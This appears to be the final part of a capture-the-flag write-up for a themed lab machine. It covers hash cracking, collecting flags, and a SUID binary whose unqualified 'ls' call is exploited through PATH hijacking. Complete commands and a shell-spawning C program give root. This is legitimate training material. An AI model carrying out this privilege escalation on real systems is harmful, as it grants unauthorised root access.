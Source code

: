 crack the hash with john, found `baraddur`  
login and get another flag :
`flag{636e566640f0930b4772ff76932dd4b83d8987af}`  
answer the question, get a few flags, then get the shell:
```c
...snip...
You defeated Sauron
flag{63905253a3f7cde76ef8ab3adcae7d278b4f5251}
Sauron appears behind you...
...snip...
You defeated Sauron
flag{dca13eaacea2f4d8c28b00558a93be0c2622bbe1}
Sauron appears in front of you...
...snip...
You defeated Sauron
flag{79bed0c263a21843c53ff3c8d407462b7f4b8a4a}
Sauron appears with the whole darkness...
...snip...
You defeated Sauron
He disappears... You defeated him. Now grap the plans!
barad_dur@mordor:~$ whoami
barad_dur
```

There's a suid binary, looks like this is the end of journey :p  
download the binary and do reverse on it.
```c
│           0x00001177      488d3d860e00.  lea rdi, str.ls__root       ; 0x2004 ; "ls /root" ; const char *string
│           0x0000117e      b800000000     mov eax, 0
│           0x00001183      e8a8feffff     call sym.imp.system         ; int system(const char *string)
```

yup, the vulnerable is simple ...  
create program to spawn shell & trick the PATH environment  
```bash
barad_dur@mordor:~$ cat ls.c
main(){setuid(0);setgid(0);system("/bin/sh");}
barad_dur@mordor:~$ gcc ls.c -o ls &>/dev/null
barad_dur@mordor:~$ PATH=.:$PATH ./plans
# whoami
root
# cat /root/flag.txt
                                             _______________________
   _______________________-------------------                       `\
 /:--__                                                              |
||< > |                                   ___________________________/
| \__/_________________-------------------                         |
|                                                                  |
 |                       Congratulations                           |
 |                                                                  |
 |      You have successfully reach the root, i hope                |
  |        you enjoyed the ctf and the story.                       |
  |                                                                  |
  |           flag{262efbb6087a6aae46f029a2ff19f9f409c9cd3d}         |
  |                                                                   |
   |       Created by strider, CC v3                                  |
   |                                                                  |
   |                                                                 |
  |                                              ____________________|_
  |  ___________________-------------------------                      `\
  |/`--_                                                                 |
  ||[ ]||                                            ___________________/
   \===/___________________--------------------------
```